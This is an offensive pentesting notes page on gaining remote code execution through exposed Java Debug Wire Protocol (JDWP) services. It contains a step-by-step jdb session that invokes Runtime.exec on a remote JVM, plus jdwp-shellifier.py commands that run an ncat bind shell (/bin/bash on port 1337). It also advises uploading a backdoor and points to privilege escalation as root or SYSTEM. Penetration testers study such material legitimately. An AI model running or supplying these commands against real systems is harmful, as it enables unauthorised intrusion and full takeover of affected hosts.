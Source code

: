 ```yaml
---
description: Java Debug Wire Protocol
icon: java
---
```


# JDWP

<mark style="color:purple;">**Java Debug Wire Protocol (JDWP) -**</mark>**&#x20;**<mark style="color:red;">**Remote Code Execution**</mark>

Java Debugging Wire Protocol (JDWP) is the lowlevel protocol used for communication between a debugger and a Java Virtual Machine (JVM) as outlined in the Java Platform Debugger Architecture. It is often used to facilitate remote debugging of a JVM over TCP/IP and can be identified by the initial protocol handshake ascii string "JDWP-Handshake", sent first by the client and responded to by the server. "jdb" is a proof-of-concept JDWP capable debugger included in Oracle JDK and OpenJDK which can be used to interact with remote JDWP capable services. Typically this service runs on TCP port 8000 however it can be found to run on arbitrary TCP ports and is sometimes found enabled inadvertantly on servers running Java services. It is possible to use this utility to exploit remote JVM's and execute arbitrary Java code. An example shown here outlines how to leverage this weakness to execute arbitrary host OS commands in the context of the JVM.

```
$ jdb -attach x.x.x.x:8000
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 

Information leaks can be leveraged to determine details about the remote OS
platform and Java installation configuration through the "classpath" command.

> classpath
base directory: C:\Windows\system32
classpath: [ ** MASKED ** list of jar's loaded in remote JVM ]
bootclasspath: [ ** MASKED ** list of JRE paths ]
> 

jdb is capable of performing remote object creation and method invokation from
within the CLI using the "print" "dump" and "eval" commands with the "new"
keyword. To determine the classes and methods available use the "classes" and
then "methods" on the corrosponding class. 

> classes
...
java.lang.Runtime
...
> methods java.lang.Runtime
...
java.lang.Runtime exec(java.lang.String[])
...

It is often necessary to set the JDB context to be within a suspended thread or
breakpoint before attempting to create a new remote object class. Using the
"trace go methods" function can be used to identify a candidate for a breakpoint
and then "stop in your.random.class.method()" to halt the execution of a running
thread. When the execution is halted you can use "print new" to create your
class and invoke methods such as in the following example.

Breakpoint hit: "thread=threadname",your.random.class.method(), line=745 bci=0
threadname[1] print new java.lang.Runtime().exec("cmd.exe /c dir")
new java.lang.Runtime().exec("cmd.exe /c dir") = "java.lang.ProcessImpl@918502"
threadname[1] cont
> 

Exploitation success will be determined from the output of the JDB process as
functions returning "null" or errors about "unsuspended thread state" would
indicate that exploitation was unsuccessful, however in the example above we can
see that the java created a new object "java.lang.ProcessImpl@918502" indicating
the "cmd.exe /c dir" was executed with success. On Linux this may need adjusting
to "java.lang.Runtime.getRuntime().exec()" however see the method / class
enumeration when attempting to exploit this flaw.


Your java will be executed in the context of the running JVM application, this
has been identified on services running as both "root" (*nix) and "SYSTEM"
(win32) in the wild. 
```

#### <mark style="color:purple;">POC:</mark>

{% embed url="https://www.exploit-db.com/exploits/46501" %}

```
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the \*\*Java Debug Wired Protocol \*\*and you may be able to move laterally or even **escalate privileges** (if executed as root).

#### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol" %}

{% embed url="https://ioactive.com/hacking-java-debug-wire-protocol-or-how/" %}

